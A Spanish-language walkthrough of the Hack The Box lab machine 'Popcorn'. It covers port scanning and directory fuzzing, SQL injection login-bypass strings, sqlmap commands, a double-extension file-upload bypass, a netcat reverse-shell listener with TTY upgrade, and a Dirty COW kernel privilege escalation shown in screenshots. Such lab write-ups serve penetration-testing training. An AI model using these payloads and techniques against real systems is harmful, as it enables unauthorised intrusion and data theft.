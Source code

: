 # PopCorn

## NMAP
Revisar puertos y servicios en nmap.

![image](https://github.com/gecr07/PopCorn-HTB/assets/63270579/6c6b3588-44e0-4a33-a576-d013e9709484)

Otro comando que se puede utilizar

```
nmap — script vuln 10.10.10.6
```

### traceroute

![image](https://github.com/gecr07/PopCorn-HTB/assets/63270579/1aafa13c-8f3c-4419-8a43-082eda8973eb)


## Fuzzing (FFUF)

```
ffuf -fc 400  -t 4000 -w /opt/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -u http://10.129.36.23/FUZZ
```

### WFUZZ

```
wfuzz -c --hc=404 -t 400 -w /opt/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt  http://10.129.36.23/FUZZ 
```

### dirb

```
dirb http://10.129.36.23 -r -a popcorn.dirb
```

## Vulnerabilities y verciones en el software

### OpenSSH

La ultima version de este programa es: OpenSSH 9.3/9.3p1 (2023-03-15)

>  https://www.openssh.com/releasenotes.html


### APACHE

La ultima version de este programa es: 2.4.57 (released 2023-04-06)

> https://httpd.apache.org/download.cgi

## PHP

La ultima version de este programa es: 8.1.18 Released: 13 Apr 2023

## Ubuntu y el Kernel de Linux

Ubuntu esta en la version 23.04 y la version mas reciente del kernel de linux es la 6 y pico

> https://www.kernel.org/

## Enum

Podemos usar esta herramienta llamada nikto nos muestra vulnerabilidades que se podrian usar en un pentest en el reporte.

```
nikto -h popcorn.htb -o nikto.txt -p 80

```

## MySQL Database

Probamos la SQLI en el login:

```
admin'
Passwloquesea
```

![image](https://github.com/gecr07/PopCorn-HTB/assets/63270579/3f02d9df-a837-4b7f-9d15-f7f02382a656)

Podriamos apsar el login con un comentario

```
admin'-- -
passwordloquesea

```

## SQLMAP

Vamos a practicar con esta herramienta para evitar estar respondiendo a las preguntas usa la opcion ***--batch***.

### Paso uno saber que DBS es y sacar las tablas.

```
sqlmap -r req.txt --batch --tables
sqlmap -u http://popcorn.htb/torrent/torrent/login.php --data="username=admin&password=masa" --method POST --dbs --batch
```
Sacar las tablas

```
sqlmap -u http://popcorn.htb/torrent/torrent/login.php --data="username=admin&password=masa" --method POST --tables 
```

Recuerda tienes que ir poniendo los datos que va sacando con mayusculas D (database) T(table)

## File Upload

![image](https://github.com/gecr07/PopCorn-HTB/assets/63270579/0cebbff1-ff02-4e59-9b9f-cb25c49ae2d5)

Esta funcion de upload tiene 2 protecciones checa los magic numbers (la firma) y aparte la extencion del archivo osea toma lo que hay en el primer punto y ve que se auna extencion valida.

![image](https://github.com/gecr07/PopCorn-HTB/assets/63270579/0e31d9dd-6d7e-44b1-9be9-207cfa15110b)

Lo vencemos poniendo doble extencion y dejando el PNG (la firma). Si le das clic en la imagen del torrent intenta cargarlo y te da la ruta

![image](https://github.com/gecr07/PopCorn-HTB/assets/63270579/09a1a9cf-de89-418b-b465-8c53a989ed50)

![image](https://github.com/gecr07/PopCorn-HTB/assets/63270579/ddb9f525-2886-4955-889b-c533a6da4499)

## RCE User

```
uname -a
```

![image](https://github.com/gecr07/PopCorn-HTB/assets/63270579/cbb49234-60ef-486b-b26e-01865e39c9fd)

Linux es el tipo de sistema operativo,popcorn es el hostname, 2.6.31-14-generic-pae es la version del kernel, SMP Fri Oct 16 15:22:42 UTC 2009 es la fecha donde se compilo el codigo, i686 dice la arquitectura y lo que sigue es informacion del OS.


Para ver la distribucion usa

```
lsb_release -d
```

## Fully tty

```
script /dev/null -c bash
ctrl+Z
stty raw -echo
fg
[1]  + continued  nc -lvnp 1234 (output)
                                       reset
xterm
export TERM=xterm
export SHELL=bash
stty -a # Para ver el tamaño de las filas y columnas
stty rows 24 columns 80
```

## RCE Priv Esc Linux Kernel 2.6.22 < 3.9 - 'Dirty

![image](https://github.com/gecr07/PopCorn-HTB/assets/63270579/2aee870d-8dd2-40d2-b505-38e0da65990d)

![image](https://github.com/gecr07/PopCorn-HTB/assets/63270579/e8857e00-feb0-43b4-bf81-dfa65a802e40)



